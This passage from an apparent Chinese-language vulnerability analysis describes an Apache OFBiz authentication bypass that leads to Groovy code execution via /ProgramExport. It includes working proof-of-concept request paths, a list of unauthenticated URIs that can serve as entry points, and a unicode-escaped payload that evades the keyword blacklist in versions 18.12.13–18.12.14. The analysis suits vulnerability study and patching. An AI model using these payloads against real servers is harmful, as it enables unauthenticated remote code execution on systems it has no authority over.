 但是仍然可以从  
securityAuth  
入手，以不需要身份验证的 uri 为跳板来调用  
/ProgramExport  
对应的视图。  
  
（详情可回顾：[Apache OFBiz 命令执行漏洞分析](https://mp.weixin.qq.com/s?__biz=Mzg4Nzc3MTk3Mg==&mid=2247488429&idx=1&sn=7feb3d221730a965bd93b0f2afdf97af&chksm=cf841586f8f39c906bcc435bf4d689cd284afce976d87d261a7c91420a640829af70f5e89305&token=1148006179&lang=zh_CN&scene=21#wechat_redirect)  
  
）  
  
直接构造 18.12.14 及之前版本通杀的路径 payload，不需要进行目录遍历。  
   
```
/webtools/control/ListTimezones/ProgramExport?groovyProgram='calc.exe'.execute()       
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57N7FbtCB2G660pzdLdhz6IvFDPXIaFLEctbiaoAq5REPFCBK5BALF1g8Ky22cQI5OicDzv0lkdo4RZA/640?wx_fmt=png "")  
  
其中  
/ListTimezones  
部分是可替换的，在 common-comtroller.xml 中，只要满足  
auth="false"  
、以及  
success  
响应结果对应  
type="view"  
的 uri 都可以进行利用。比如这些：forgotPassword、ListSetCompanies、showHelpPublic、getUiLabels、ListTimezones、ListLocales。  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57N7FbtCB2G660pzdLdhz6IvvZSGibHJQOVbefNQgLMC21cqTlzovgdO0SgZIUbOgxDUKv7blQ7wVVQ/640?wx_fmt=png "")  
  
18.12.13 版本中，在 security.properties 中的黑名单里新增了  
execute  
等关键字；  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57N7FbtCB2G660pzdLdhz6IvricHU0UbUvffVBY57icyu8iayxibOb52c5PwWpGrqzyKHRYfic7vdkwWjyg/640?wx_fmt=png "")  
  
所以 18.12.13 和 18.12.14 版本的 payload 需要对   
groovyProgram  
 参数内容进行编码传入来绕过黑名单校验。  
```
/webtools/control/ListSetCompanies/ProgramExport            

groovyProgram=\u0027\u0063\u0061\u006c\u0063\u002e\u0065\u0078\u0065\u0027\u002e\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57N7FbtCB2G660pzdLdhz6IvmDrTosGBeBuCMBXFPfqBN1GCSuudNNgoXWhvddGRv0SruVH63FkEbw/640?wx_fmt=png "")  
  
uri   
ListTimezones  
的  
 auth  
 改为了 true，不能进行利用了，不过其他的 uri 仍然可以利用。  
  